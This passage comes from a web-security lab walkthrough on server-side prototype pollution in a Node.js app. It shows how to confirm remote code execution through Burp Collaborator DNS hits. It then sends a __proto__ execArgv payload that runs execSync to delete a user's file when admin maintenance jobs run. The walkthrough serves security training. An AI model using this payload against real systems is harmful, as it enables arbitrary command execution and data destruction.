      ]
  }
  ```

- Send the request.

- In the browser, go to the admin panel and trigger the maintenance jobs again. Notice that these have both failed this time.
- In Burp, go to the Collaborator tab and poll for interactions. Observe that you have received several DNS interactions, confirming the remote code execution.
### 1Craft an Exploit
- In Repeater, replace the curl command with a command for deleting Carlos's file:
  ```json
  "__proto__": {
      "execArgv": [
          "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
      ]
  }
  ```
- Send the request.
- Go back to the admin panel and trigger the maintenance jobs again. Carlos's file is deleted, and the lab is solved.

